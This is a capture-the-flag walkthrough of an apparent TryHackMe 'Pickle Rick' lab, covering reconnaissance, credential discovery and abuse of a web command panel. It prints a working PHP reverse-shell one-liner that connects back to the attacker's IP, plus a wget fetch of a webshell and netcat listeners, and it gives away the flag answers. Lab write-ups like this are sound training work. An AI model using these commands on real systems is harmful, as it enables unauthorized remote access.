

#ctf #dirbuster #Linux 

---

Performing an `nmap` scan to identify open ports and services:

```shell
└─$ nmap -sC -sV 10.10.244.104 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-16 18:40 EST
Nmap scan report for 10.10.244.104
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:eb:a5:6c:d0:eb:d6:74:03:c4:ac:29:68:be:5f:60 (RSA)
|   256 0e:f3:7f:77:38:5a:69:cf:c6:4c:fd:12:d1:cb:58:96 (ECDSA)
|_  256 c0:d5:b1:57:6f:f3:07:0d:5f:af:cc:f3:a7:f3:7e:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.71 seconds
```


Opening the IP address and inspecting the page code:


> We see the username : `R1ckRul3s` as a comment.
> We see that there is a directory called `/assets`.

Opening `/assets` to view its contents:


Now I'll enumerate all directories using `gobuster`:

``` shell
└─$ gobuster dir -u http://10.10.244.104 -w /usr/share/wordlists/dirb/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.244.104/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 301]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================

```

Opening `robots.txt` we see this string: `Wubbalubbadubdub`.

Heading to the `login.php` page, we use the username given above as a comment `R1ckRul3s` and the password found in the `robots.txt` `Wubbalubbadubdub`
.


The credentials work, and we are greeted with this new directory `/portal.php`.



Cheking the source code for this page: 

```HTML
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    <form name="input" action="" method="post">
      <h3>Command Panel</h3></br>
      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
    </form>
        <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
  </div>
</body>
</html>
```

1. We see that all the other tabs redirect us to `/denied.php`: 
2. We see in the form that we can execute commands.
3. We see a comment near the end that has some encoded data.

1. 


2. 
> We see that we can execute commands in the commands tab. The commands we enter as text are uploaded using HTTP `POST` method. The input we enter is also executed using `Execute`.


Typing `ls` command to view all files in the directory, we see all the files we found before except for `clue.txt` and `Sup3rS3cretPickl3Ingred.txt`.

> Using `cat Sup3rS3cretPickl3Ingred.txt` to view the first flag doesnt't work. The same goes for `cat clue.txt`.


Trying multiple different ways to open files:
* `more`
* `nano`
* `tail`
* `head`
* `less` WORKS!


###### What is the first ingredient that Rick needs? : `mr. meesek hair`.

> Opening the `clue.txt` file:


3. The comment at the end of the source code has some encoded data:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This looks like base64 encoding. Decoding it from base64 4 times gives us this:
`WTIxR2FWbHRiREJKUjJoMllrZFZQUT09`. Nothing useful.


Now, we try and look for the second ingredient by following the clue in `clue.txt`. To challenge myself, I tried to upload a shell, but that failed.

---

##### Failed trial:

1. Got the `php-reverse-shell.php` file from `/usr/share/webshells` and changed the IP address to my local machine IP.
2. Opened a python server in the directory with the shell file i changed above in step 1: `python -m http.server 80`.
3. Went to the command panel on `/portal.php` and fetched the file using `wget`: `wget http://10.2.73.192:80/php-reverse-shell.php`. The file indeed got fetched:


4. After that, I headed to the `/assets` directory where I assumed it would be uploaded, but I didnt find it. If it had been found, I would open it and open a netcat listener on my local machine:
```
nc -nlvp 1234
```

---

So instead of uploading a shell to the server, why don't I connect to my machine from the server itself using a simple PHP one-liner shell.

First, we setup a netcat listener on port 4242 on the local machine and await for connections:

```
nc -nlvp 4242
```

Then paste this command in the `/portal.php` command input:

```php
php -r '$sock=fsockopen("10.2.73.192",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
> This IP address is that of my local machine that I'm attacking from.

We should get a connection once we execute the command on our local machine:


Now we can cruise through the files and find our flags.


###### What is the second ingredient in Rick’s potion?: `1 jerry tear`.

Then trying to head to the root directory of the system to get the final flag:


We get the final flag.

###### What is the last and final ingredient?: `fleeb juice`.

---
